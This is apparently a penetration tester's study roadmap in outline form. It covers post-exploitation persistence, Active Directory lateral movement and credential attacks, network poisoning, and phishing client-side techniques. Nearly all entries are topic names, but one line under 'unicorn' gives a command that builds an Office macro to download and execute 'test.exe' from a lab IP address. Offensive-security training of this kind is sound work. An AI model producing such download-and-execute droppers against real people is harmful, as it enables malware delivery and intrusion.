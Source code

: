 
# Level 2
- Post exploitation (LOTL)
	- internal info gath
	- privs esc
	- persistence
		- com hijacking
		- startup folder
		- backdoor as service
		- local user acc
		- dll injection
- tcm sec/hackersploit, pentester acad






# Level 3
- CRTP/CRTPE (Pentester acad courses) and AD attacks and lateral movement (tcm sec courses)
	- stolen credentials
	- lateral movement
		- dumping hashes
			- psexec
			- wmi
			- dcom
			- psremoting
		- crackmapexec
		- pass the hash/pass
			- dumping hashes with secretsdump
			- hashcat
			- crackmapexec
		- token impersonation
	- attacks
		- local net attacks: llmnr and nbt-ns poisoning
		- smb relay 
		- ipv6 attack (fake dhcp server)
		- kerberos delegation attacks
		- spoofing ssdp and UPnP devices with EvilSSDP
	- post compromise enumeration
		- powerview
		- bloodhound
		- enum4linux
		- crackmapexec



# Level 4
- OSEP/PTX
	- phishing assessment
		- client side attacks
			- html smuggling
			- win script host
				- vbs
				- jscript
			- microsoft off
				- vba
				- dde
				- macro_pack
				- luckystrike
				- unicorn
					- python windows/download_exec url=https://192.168.122.32:8080/test.exe macro
				- metasploit